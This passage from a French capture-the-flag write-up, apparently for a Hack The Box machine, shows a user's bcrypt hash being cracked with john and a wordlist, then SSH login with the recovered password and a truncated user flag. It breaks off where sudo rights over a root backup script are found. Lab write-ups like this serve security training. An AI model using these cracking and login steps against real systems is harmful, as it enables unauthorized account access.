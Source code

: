 ```bash
/var/log/wtmp
/var/log/journal/08b7d40fcb5444a9baa8b47d27502d2d/user-1001.journal
```

### Cracking joshua hash | john
A l'aide de **john**, on tente de cracker le hash du mot de passe de **joshua**
```bash
$ john --wordlist=~/wordlists/rockyou.txt joshua_hash.txt

Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

spongebob1       (?)

1g 0:00:00:38 100% 0.02606g/s 36.27p/s 36.27c/s 36.27C/s teacher..atlanta
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Le mot de passe de l'utilisateur **joshua** est donc **spongebob1**.

### User flag: SSH joshua
```bash
$ ssh joshua@10.10.11.239

The authenticity of host '10.10.11.239 (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.239' (ED25519) to the list of known hosts.
joshua@10.10.11.239's password: *******
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...
Last login: Wed Jan 10 16:35:11 2024 from 10.10.14.159
joshua@codify:~$ whoami
joshua
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
3c02.....ef98
```

## Privilege Escalation

### mysql-backup.sh as root
```bash
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
On remarque qu'on a le droit d'executer la commande **/opt/scripts/mysql-backup.sh** en tant que **root**.  
